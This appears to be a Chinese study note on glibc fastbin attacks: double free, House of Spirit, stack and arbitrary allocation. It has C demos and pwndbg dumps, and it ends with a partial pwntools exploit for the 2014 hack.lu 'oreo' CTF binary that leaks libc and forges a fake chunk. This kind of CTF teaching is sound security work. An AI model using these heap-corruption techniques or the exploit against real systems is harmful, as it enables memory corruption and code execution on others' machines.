








# Fastbin Attack

Fastbin Attack 指基于 fastbin 机制的一类漏洞利用方法。前提如下：

1. 存在堆溢出、UFA等能控制chunk内容的漏洞
2. 漏洞发生在fastbin类型的chunk中

主要为四类：

1. Fastbin Double Free
2. House of Spirit
3. Alloc to Stack
4. Arbitrary Alloc

其中，前两种主要漏洞侧重于利用 free 函数释放真的 chunk 或伪造的 chunk，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 fd 指针，直接利用 malloc 申请指定位置 chunk 进行攻击

## 原理

fastbin attack 存在的原因在于 fastbin 是使用单链表来维护释放的堆块的，并且由 fastbin 管理的 chunk 即使被释放，其 next_chunk 的 prev_inuse 位也不会被清空。
例，

```c++
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x30);
    chunk2=malloc(0x30);
    chunk3=malloc(0x30);
    free(chunk1);
    free(chunk2);
    free(chunk3);
    return 0;
}
```

释放前：



释放后：
此时位于 main_arena 中的 fastbin 链表中已经储存了指向 chunk3 的指针，并且 chunk 3、2、1 构成了一个单链表




## Fastbin Double Free

Fastbin Double Free 是指 fastbin 的 chunk 可以被多次释放，因此可以在 fastbin 链表中存在多次(释放后申请）。这样导致的后果是多次分配可以从 fastbin 链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆 (type confused) 的效果。
Fastbin Double Free可以成功利用的原因：

1. fastbin 的堆块被释放后 next_chunk 的 pre_inuse 不会被清空
2. fastbin 在执行free的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块，对于后面的块不会验证

```c++
/* Another simple check: make sure the top of the bin is not the
       record we are going to add (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;
}
```

### 示例1

```c++
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk1);
    return 0;
}
```

编译执行后，_int_free 函数会检测到 fastbin 的 double free。



在chunk1释放之后释放chunk2，然后再释放chunk1，就不会被检测到（此时main_arena（fastbin的head） 指向chunk2而不是指向chunk1）

```c++
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```



因为chunk1 被再次释放，所以其fd值不再为0而是指向chunk2（再次free(chunk1)时，因为chunk1会被添加到链首，所以chunk1的fd指向chunk2），此时如果可以控制chunk1的内容，便可以写入其fd指针，从而实现任意地址分配fastbin块。

```c++
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    // 分配得到最近释放的fastbin
    *(long long *)chunk_a=&bss_chunk;
    // 修改fd指针指向bss_chunk
    malloc(0x10);
    // 得到chunk2，此时由于chunk1的fd指针指向bss_chunk,所以fastbin链表中还有两个chunk（0x602000 —▸ 0x601080 (bss_chunk) ）
    malloc(0x10);
    // chunk1 被分配出去，只剩下bss_chunk
    chunk_b=malloc(0x10);
    printf("chunk_b = %p\n",chunk_b);
    return 0;
}

```

修改之后heap的布局如下：

```s
pwndbg> parseheap
addr                prev                size                 status              fd                bk
0x602000            0x0                 0x20                 Used                None              None
0x602020            0x0                 0x20                 Used                None              None
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x0000000000601080  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021
0x602030:   0x0000000000602000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000020fc1
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
pwndbg> x   g 0x00000000006010  0
0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
0x601090 <bss_chunk+16>:    0x0000000000000000  0x0000000000000000
0x6010a0:   0x0000000000000000  0x0000000000000000
0x6010b0:   0x0000000000000000  0x0000000000000000
0x6010c0:   0x0000000000000000  0x0000000000000000
0x6010d0:   0x0000000000000000  0x0000000000000000
0x6010e0:   0x0000000000000000  0x0000000000000000
0x6010f0:   0x0000000000000000  0x0000000000000000
```

首先先构造 `main_arena -> chunk1 -> chunk2 -> chunk1`的fastbin链表。然后调用malloc返回chunk1之后修改chunk1的fd指针指向bss段上的bss_chunk,之后再malloc时就会分配到bss_chunk

编译后输出如下：



> main函数中设置`bss_chunk.size=0x21;`是因为 _int_malloc 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常



_int_malloc 中的校验：

```c++
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
    {
      errstr = "malloc(): memory corruption (fast)";
    errout:
      malloc_printerr (check_action, errstr, chunk2mem (victim));
      return NULL;
}
```

通过 fastbin double free 可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过验证)，这就相当于任意地址写任意值的效果。

## House Of Spirit

在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配指定地址的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ，同时也不能大于av->system_mem 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

> 总的来说就是创建一个 fake chunk， 通过覆盖指针指向这个fake chunk（以特定的方式及设置size和下一个chunk的size绕过安全检查）。当释放fake chunk时，他被插入到bin list中，再次malloc时就会返回fake chunk。

House Of Spirit，并不需要修改指定地址的任何内容，关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测。

## Alloc to Stack

劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等

### 示例2

```c++
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```

malloc之后，stack_chunk的地址（栈）成功写入到chunk1的fd指针（chunk1被释放，user data的前8个字节为fd指针），且此时fast bin中已经存在stuck_chunk

```s
In file: /home/nop/Desktop/test.c
   17     chunk1=malloc(0x10);
   18
   19     free(chunk1);
   20
   21     *(long long *)chunk1=&stack_chunk;
 ► 22     malloc(0x10);
   23     chunk_a=malloc(0x10);
   24     return 0;
   25 }
─────────────────────────────────────────────────────────────────────────────────────────────────
......
pwndbg> x/16g 0x602000
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x00007fffffffdc60  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1
0x602030:   0x0000000000000000  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000000
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000  0x0000000000000000
pwndbg> fast
fastbins
0x20: 0x602000 —▸ 0x7fffffffdc60 —▸ 0x400650 (__libc_csu_init) ◂— and    byte ptr [rax], al /* ' ' */
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg>
```

之后第二次malloc成功返回stack_chunk(0x7fffffffdc60+0x10(prev_size,size))

```s
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
   0x40061a <main+68>     mov    edi, 0x10
   0x40061f <main+73>     call   malloc@plt <0x4004c0>

   0x400624 <main+78>     mov    edi, 0x10
   0x400629 <main+83>     call   malloc@plt <0x4004c0>

   0x40062e <main+88>     mov    qword ptr [rbp - 0x38], rax
 ► 0x400632 <main+92>     mov    eax, 0
   0x400637 <main+97>     mov    rcx, qword ptr [rbp - 8]
   0x40063b <main+101>    xor    rcx, qword ptr fs:[0x28]
   0x400644 <main+110>    je     main+117 <0x40064b>
    ↓
   0x40064b <main+117>    leave  
   0x40064c <main+118>    ret
─────────────────────────────────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]──────────────────────────────────────────────────────────────────────────────────────────────
In file: /home/nop/Desktop/test.c
   19     free(chunk1);
   20
   21     *(long long *)chunk1=&stack_chunk;
   22     malloc(0x10);
   23     chunk_a=malloc(0x10);
 ► 24     return 0;
   25 }
─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp      0x7fffffffdc50 —▸ 0x602010 —▸ 0x7fffffffdc60 —▸ 0x7fffffffdc8e ◂— 0x400650572d
01:0008│          0x7fffffffdc58 —▸ 0x7fffffffdc70 —▸ 0x400650 (__libc_csu_init) ◂— push   r15
02:0010│          0x7fffffffdc60 —▸ 0x7fffffffdc8e ◂— 0x400650572d
03:0018│          0x7fffffffdc68 ◂— 0x21 /* '!' */
04:0020│ rax rdx  0x7fffffffdc70 —▸ 0x400650 (__libc_csu_init) ◂— push   r15
05:0028│          0x7fffffffdc78 —▸ 0x4004e0 (_start) ◂— xor    ebp, ebp
06:0030│          0x7fffffffdc80 —▸ 0x7fffffffdd70 ◂— 0x1
07:0038│          0x7fffffffdc88 ◂— 0x572d050368fbbe00
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0           400632 main+92
   f 1     7ffff7a2d830 __libc_start_main+240
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> fast
fastbins
0x20: 0x400650 (__libc_csu_init) ◂— and    byte ptr [rax], al /* ' ' */
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p $rbp-0x38
$4 = (void *) 0x7fffffffdc58
pwndbg> x/x 0x7fffffffdc58
0x7fffffffdc58: 0x00007fffffffdc70
pwndbg>
```

把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点需要劫持 fastbin 中 chunk 的 fd 域，把它指到栈上，同时需要栈上存在有满足条件的 size 值

## Arbitrary Alloc

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的 size 域，就可以可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等。

### 示例3

```c++
// 使用字节错位来实现直接分配 fastbin 到_malloc_hook 的位置，相当于覆盖_malloc_hook 来控制程序流程。
int main(void)
{
    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

开始之前需要调试得到__malloc_hook的地址：

```s
Breakpoint main
pwndbg> search __malloc_hook
libc-2.23.so    0x7ffff7a20c96 pop    rdi /* '__malloc_hook' */
warning: Unable to access 16000 bytes of target memory at 0x7ffff7bd4d0c, halting search.
pwndbg>
```

接着要观察欲写入地址附近是否存在可以字节错位的情况，即通过得到的malloc_hook的地址向上回溯观察是否可以错位构造出一个合理的size（本机调试时并未能找到合适的size域，所以以下内容为ctf-wiki中的数据）
__malloc_hook的地址为0x7ffff7dd1b10

```s
0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0
```

向上回溯可以发现从0x7ffff7dd1af5开始刚好可以构成 0x000000000000007f（小端序），即0x7ffff7dd1af5~7ffff7dd1afc
64位fast bin大小如下：

```s
//这里的size指用户区域，因此要小2倍SIZE_SZ
Fastbins[idx=0, size=0x10]
Fastbins[idx=1, size=0x20]
Fastbins[idx=2, size=0x30]
Fastbins[idx=3, size=0x40]
Fastbins[idx=4, size=0x50]
Fastbins[idx=5, size=0x60]
Fastbins[idx=6, size=0x70]
```

0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的,而其大小又包含了 0x10 的 chunk_header，因此分配 0x60 的 fastbin，将其加入链表。 最后经过两次分配可以观察到 chunk 被分配到 0x7ffff7dd1afd，进而就可以直接控制 __malloc_hook 的内容

```c
// 注意 sz 的大小是 unsigned int，因此只占 4 个字节
#define fastbin_index(sz) ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```

## 2014 hack.lu oreo

### 基本功能-oreo

> 程序没有进行 setvbuf 操作，因此在初次执行 io 函数时，会在堆上分配空间。

枪支订购系统，分析可得到枪支的结构如下：

```s
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

```c++
 v1 = rifle;
  rifle = malloc(0x38u);
  if ( rifle )
  {
    *(rifle + 13) = v1;                         // rifle+13->next指针，rifle_addr + 13*4 --> rifle_addr + 0x34
    printf("Rifle name: ");
    fgets(rifle + 25, 56, stdin);               // rifle_addr + 25 -->rifle_addr + 0x19
    sub_80485EC(rifle + 25);
    printf("Rifle description: ");
    fgets(rifle, 56, stdin);                    // rifle_addr + 0
    sub_80485EC(rifle);
```

- 功能分析：

1. add

  ```c++
  unsigned int add()
  {
    v2 = __readgsdword(0x14u);
    v1 = rifle;
    rifle = malloc(0x38u);
    if ( rifle )
    {
      *(rifle + 13) = v1;
      printf("Rifle name: ");
      fgets(rifle + 25, 56, stdin);
      sub_80485EC(rifle + 25);
      printf("Rifle description: ");
      fgets(rifle, 56, stdin);
      sub_80485EC(rifle);
      ++rifle_num;
    }
    else
    {
      puts("Something terrible happened!");
    }
    return __readgsdword(0x14u) ^ v2;
  }
  ```

  next指针赋值，以及输入name、description。其中，name输入长度限制到56，可以覆盖next指针的指向（0x34-0x19 = 0x1B(27)）。
2. show

  ```c++
  unsigned int show()
  {
    printf("Rifle to be ordered:\n%s\n", "===================================");
    for ( i = rifle; i; i = *(i + 13) )
    {
      printf("Name: %s\n", i + 25);
      printf("Description: %s\n", i);
      puts("===================================");
    }
    return __readgsdword(0x14u) ^ v2;
  }
  ```

  显示枪支信息，即 name、description
3. order

  ```c++
    unsigned int order()
    {
      v2 = rifle;
      if ( rifle_num )
      {
        while ( v2 )
        {
          ptr = v2;
          v2 = *(v2 + 13);
          free(ptr);
        }
        rifle = 0;
        ++rifle_num_ordered;
        puts("Okay order submitted!");
      }
      else
      {
        puts("No rifles to be ordered!");
      }
      return __readgsdword(0x14u) ^ v3;
    }
  ```

  订购添加的枪支，释放已添加的枪支，但是并没有置为NULL
4. message

  ```c++
  unsigned int message()
  {
    printf("Enter any notice you'd like to submit with your order: ");
    fgets(message_order, 128, stdin);
    sub_80485EC(message_order);
    return __readgsdword(0x14u) ^ v0;
  }
  ```

  输入订货信息，可用来构造fake_chunk
5. current_status

  ```c++
  unsigned int current_status()
  {
    puts("======= Status =======");
    printf("New:    %u times\n", rifle_num);
    printf("Orders: %u times\n", rifle_num_ordered);
    if ( *message_order )
      printf("Order Message: %s\n", message_order);
    puts("======================");
    return __readgsdword(0x14u) ^ v1;
  }
  ```

  显示订单状态，输出枪支数以及订单信息

### 利用-oreo

大致思路：

1. 通过溢出控制next指针指向程序表的got表位置，调用show时泄露libc。此外，将next指向结构体时，需要结构体的next指针为NULL。
2. 枪支结构体大小为0x38,所以chund的大小为0x40(prev_size和size)。通过`house of sprit`来返回一个 0x0804A2A8（message_oder） 处的chunk，所以需要设置 0x0804A2A8 处的内容为 0x40，通过添加 0x40只枪，来使 rifle_num 变成0x40即 0x0804A2A4的值变成0x40,从而绕过大小检测(message_oder为malloc返回的地址）。同时需要确保next指针绕过检测，需要编辑留下信息
3. 成功分配fake_chunk之后，就可以通过任意地址修改（message_oder是我们可任意修改的）来获取shell了。

### exp-oreo

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.arch='i386'
context.log_level='DEBUG'

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def add(name , describle):
  # ru("Action:")
  sl(1)
  # ru("Rifle name:")
  sl(name)
  # ru("Rifle description:")
  sl(describle)

def show():
  # ru("Action:")
  sl(2)
  # ru("===================================\n")

def order():
  # ru("Action:")
  sl(3)

def message(messages):
  # ru("Action:")
  sl(4)
  # ru("Enter any notice you'd like to submit with your order: ")
  sl(messages)

def current():
  # ru("Action:")
  sl(5)
  # ru("======= Status =======")

def dbg():
  gdb.attach(p)
  pause()

p = process('./oreo')
elf = ELF('./oreo',checksec=False)
puts_got = elf.got['puts']


add('A'*27+p32(puts_got),'B')
# dbg()
show()
ru('B')
ru('Description: ')
puts_addr = uu32(r(4).ljust(4,'\x00'))
leak("puts_addr",puts_addr)

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
leak('system_addr',system_addr)
binsh = libc_base + libc.dump('str_bin_sh')
leak('binsh',binsh)

for i in range(0x3f):
  add('A'*27 + p32(0),'B')
  print i

# dbg()
payload = 'A'*27 + p32(0x0804A2A8)
add(payload,'B')
# dbg()
# ...
# 0x96a0410           0xa                 0x40                 Used                None              None
# pwndbg> x/16w 0x96a0410
# 0x96a0410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x96a0420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x96a0430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x96a0440:  0x41414141  0x41414141  0x41414141  0x0804a2a8 <--- next,and it point to fake_chunk


# before free, we need to bypass some check
# fake chunk's size is 0x40
# 0x20 *'a' for padding the last fake chunk
# 0x40 for fake chunk's next chunk's prev_size
# 0x100 for fake chunk's next chunk's size
# set fake iofle' next to be NULL
payload = '\x00'*0x20 + p32(0x41) + p32(0x100)
payload = payload.ljust(0x34,'a')
payload += p32(0) # make next point to NULL
payload = payload.ljust(0x100,'b')  # padding to 0x100 which we wire to size
message(payload)
# dbg()
# pwndbg> x/16w 0x8fe8410
# 0x8fe8410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x8fe8420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x8fe8430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x8fe8440:  0x41414141  0x41414141  0x41414141  0x0804a2a8
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a2c0  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x0000000a
# actually, the desrciption we enter start at 0x0804a2c0,
# and the current fake_chunk start at 0x0804a2a8,
